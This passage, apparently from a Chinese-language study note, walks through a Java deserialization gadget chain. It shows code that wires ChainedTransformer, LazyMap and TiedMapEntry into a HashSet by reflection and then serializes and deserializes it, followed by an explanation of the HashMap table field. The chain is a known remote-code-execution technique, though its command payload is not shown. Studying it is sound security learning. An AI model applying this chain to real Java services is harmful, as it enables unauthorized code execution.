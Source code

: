 ```Java

                new ConstantTransformer(1),
        };

        Transformer chain = new ChainedTransformer(transformers);

        HashMap innermap = new HashMap();
        LazyMap outermap = (LazyMap)LazyMap.decorate(innermap,chain);

        TiedMapEntry entrymap = new TiedMapEntry(outermap,123);

        HashSet hashset = new HashSet(1);
        hashset.add("foo");

        // 反射获取HashSet的map属性，以便后面对map的key的修改
        Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
        field.setAccessible(true);
        HashMap hashset_map = (HashMap) field.get(hashset);

        // 反射获取了HashMap中的table属性  ①
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashset_map);

        // 封装于Node对象中
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        
        // 获取到了table中的key之后，利用反射修改其为entrymap
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node,entrymap);

        byte[] serializeData=serialize(hashset);
        unserialize(serializeData);
```

① 为什么要获取table属性，看一下table是啥

HashMap中的内部静态类Entry用于存储键值对，且可以以链的形式添加多个元素

![image-20220310114130954](image/image-20220310114130954.png)
